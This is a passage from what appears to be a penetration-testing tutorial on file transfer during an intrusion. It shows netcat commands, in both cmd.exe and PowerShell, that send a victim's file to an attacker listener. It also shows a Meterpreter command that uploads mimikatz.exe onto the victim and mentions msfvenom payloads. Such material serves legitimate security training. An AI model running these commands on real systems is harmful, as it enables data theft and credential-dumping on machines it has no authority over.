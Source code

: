```
C:\temp\nc.exe 172.16.1.30 443 < C:\temp\supersecret.txt
```

The prompt will hang on both sides like before and after a few seconds we can cancel the connection from our attacker machine using **CTRL + C**. After that, we can check the file to make sure it downloaded in full.

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-171.png)

## **Transferring Files onto Attacker from Victim Using Netcat: PowerShell**

Again, the syntax just needs to be a bit different when using PowerShell compared to cmd.exe. Same as with the previous example, first start a listener on our attacker machine to catch supersecret.txt, then push the file from the victim.

On the victim (second):

```
cat C:\temp\supersecret.txt | C:\temp\nc.exe 172.16.1.30 443
```

From here onward, everything else is the same as the cmd.exe example: wait 1 minute, kill connection on attacker, and then check that file size matches on both sides.

> I want to mention that there is also **ncat**, **socat**, and **powercat.ps1**, which are all similar to netcat. Each of these tools have their own unique differences and are worth checking out!

## **Downloading and Uploading Files Using Meterpreter**

If you managed to exploit a machine using Metasploit and have gotten a foothold on the victim with a meterpreter prompt, then you can use the built-in upload and download features to transfer files to and from the victim.

> You can also upgrade from a regular shell to a meterpreter shell by using msfvenom to craft a meterpreter payload and then transferring it to the victim. Once the payload is on the victim, start a multi-handler listener and then execute the payload and you will have a meterpreter shell on your multi-handler.

## **Downloading Files onto the Victim Using Meterpreter**

Whether you got your meterpreter shell from an exploit or an upgrade, you can use meterpreter’s built-in **upload** feature to transfer files from our attacker machine onto the victim.

> Meterpreter’s **upload** and **download** commands are in the perspective of the attacker machine (upload files to victim, download files onto attacker); however this whole post has been in the perspective of the victim and we have been downloading files onto our victim machine and uploading files to our attacker.

```
upload /opt/Windows/exploits/executables/mimikatz.exe C:\\temp\\mimikatz.exe
```

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-172.png)
